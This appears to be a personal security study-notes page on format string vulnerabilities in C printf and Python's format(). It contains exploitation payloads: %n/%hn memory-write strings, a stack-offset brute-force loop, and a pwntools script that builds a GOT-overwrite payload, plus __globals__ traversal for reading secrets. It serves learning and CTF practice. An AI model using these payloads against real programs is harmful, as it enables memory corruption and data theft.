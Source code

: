 # Format Strings

<div class="row row-cols-lg-2"><div>

Format Strings is a bug in which user input is passed to a formatting function such as `printf` or `scanf` as the input format.

```c
printf(format, user_input); // not vulnerable
printf(user_input);         // vulnerable
```

📚 They could allow a malicious user to read/write variables, which may lead to sensitive data exposure.
</div><div>

🪦 Format String bugs are uncommon nowadays, mostly due to compilers notifying the developer.
</div></div>

<hr class="sep-both">

## C printf() function

<div class="row row-cols-lg-2"><div>

When a function is called, its parameters are stored in memory at a location called the stack. Given `printf("%s", str)`:

* ...
* `0x00002`: address of the `"%s"` string parameter
* `0x00003`: address of the `str` string parameter
* ...

The `printf` function is a variadic function. It will know how many parameters it has from the format string <small>(e.g., `%s`=>`n=1`)</small>.

✍️ If we have the following code: `printf("%s")`, the function will still try to read one string from the stack, which may crash the program.
</div><div>

We can use that to read arbitrary values. Refer to [C Types](/programming-languages/low-level/c/general/index.md#types).

* `%c`: arbitrary read a char
* `%s`: arbitrary read a string
* `%x`: arbitrary read an integer and display it as hexadecimal
* `%p`: arbitrary expose an address

📚 To read the n-th parameter that is a char `%c`, we would use: `%nth$c`. 

🤖 You can use `rax2 0xFFFF` to convert from hexa to decimal. You can write a number with `$n`/`$hn` like `Hello%nth$n`, `%4294967295x%nth$n` or `%65535d%nth$hn`. The number is equals to the number of written chars.
</div></div>

<hr class="sep-both">

## Python format() function

[![python_format_string](../../../../_badges/hacktricks/generic_methodologies_and_resources/python/bypass_python_sandboxes/python_format_string.svg)](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-format-string)
[![python_format_string](../../../../_badges/rootme/app_script/python_format_string.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-format-string)

<div class="row row-cols-lg-2"><div>

The python format function may be exploited to access variables from the code and display them. In the example below, we access the method `__init__` while any methods of the class would work. We can then relatively access other members of the class, or move up and access members of the parent `global` namespace.

```py
from secret import X # in another file
X = "xxx"            # in the same file

class X:
   pass

instance = X()
"{0.__init__}".format(x)
"{x.__init__}".format(x=x)
"{x.__init__.__globals__}".format(x=x)
"{x.__init__.__globals__[X]}".format(x=x)
"{x.__init__.__globals__[X][index]}".format(x=x) # one by one
```
</div><div>

We can alternatively use error messages.

* Since Python `3.10`, an additional message body was added when using an invalid string after "`:`".

```py
>>> "{x:toto}".format(x=5)
# ValueError: Invalid format specifier 'toto' for object of type 'int'
```

* For every version of python, an exception is raised when we use an unknown format code <small>(e.g. `s` for string, as in "%s")</small>.

```py
>>> "{x:s}".format(x=5)
# ValueError: Unknown format code 's' for object of type 'int'
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [axcheron](https://axcheron.github.io/exploit-101-format-strings/), [codearcana](https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html), [learn-cyber](https://learn-cyber.net/article/Format-String-Vulnerabilities)
* <code>for i in `seq 1 1000`; do ./example "%$i\$s" 2> /dev/null | grep -v "Segmentation fault"; done</code>.
* `./xxx $(python2 -c 'print "A" * 400 + "%145$p"')`: found where my string is stored
</div><div>

```py
# pip install pwntools
from pwn import *

ssh = ssh("xxx", "yyy", 22, password="zzz")

def send_payload(payload):
    p = ssh.process(["/path/to/my_binary", payload], "/path/to/my_binary")
    return p.recvall()

print(FmtStr(execute_fmt=send_payload).offset)
# [*] Found format string offset: XXX
# fmtstr_payload(X, {elf.got.exit: elf.sym.win}, numbwritten=0)
```
</div></div>